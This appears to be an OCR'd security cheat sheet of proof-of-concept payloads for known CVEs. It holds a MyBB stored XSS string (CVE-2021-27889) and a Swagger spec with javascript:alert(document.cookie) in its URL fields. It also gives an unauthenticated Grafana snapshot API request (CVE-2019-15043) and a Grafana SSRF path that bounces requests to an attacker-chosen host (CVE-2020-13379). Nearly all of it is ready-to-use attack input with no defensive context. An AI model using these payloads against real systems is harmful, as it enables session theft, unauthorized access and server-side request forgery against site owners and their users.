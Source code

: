 #Grafana:

**(CVE-2021-27889)** MyBB forum stored XSS POC: ``[img]http://xyzsomething.com/image?)http://x.com/onerror=alert(1);//[/img]``

**(CVE-2021-24175)** WP plugin Elementor Page Builder:
https://wpscan.com/vulnerability/c311feef-7041-4c21-9525-132b9bd32f89

**(CVE-unknown)** Swagger XSS old versions (file.json content):

``swagger: "2.0",
info: 
  title: "Swagger Sample App",
  description: "Please to click Terms of service"
  termsOfService: "javascript:alert(document.cookie)"
  contact: 
    name: "API Support",
    url: "javascript:alert(document.cookie)",
    email: "javascript:alert(document.cookie)"
  version: "1.0.1"``

#Grafana:

**(CVE-2019-15043) Unauthenticated API access:**

``POST /api/snapshots``
``{"dashboard": {"editable":false,"hideControls":true,"nav":[{"enable":false,"type":"timepicker"}],"rows": [{}],"style":"dark","tags":[],"templating":{"list":[]},"time":{},"timezone":"browser","title":"Home","version":5},"expires": 3600}``

**(CVE-2020-13379) SSRF:**

``/avatar/test%3fd%3dredirect.rhynorater.com%25253f%253b%252fbp.blogspot.com%252fYOURHOSTHERE``
